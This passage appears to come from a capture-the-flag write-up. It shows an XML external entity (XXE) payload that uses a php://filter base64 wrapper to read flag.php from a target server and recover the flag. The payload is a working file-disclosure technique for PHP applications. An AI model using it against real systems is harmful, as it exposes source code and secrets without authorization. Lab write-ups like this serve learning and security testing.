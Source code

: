 <img alt="xxe" src="img/xxe/2.png">

We can see we have a commented `include_once('flag.php');` on line `35`, so let
us look inside this file instead by slightly modifying our payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.php">
]>
<root>
    <message>&xxe;</message>
</root>
```

Which produces a base64 output decoding to the contents of `flag.php`, which
contains the flag.

## 😵‍💫 XXE2
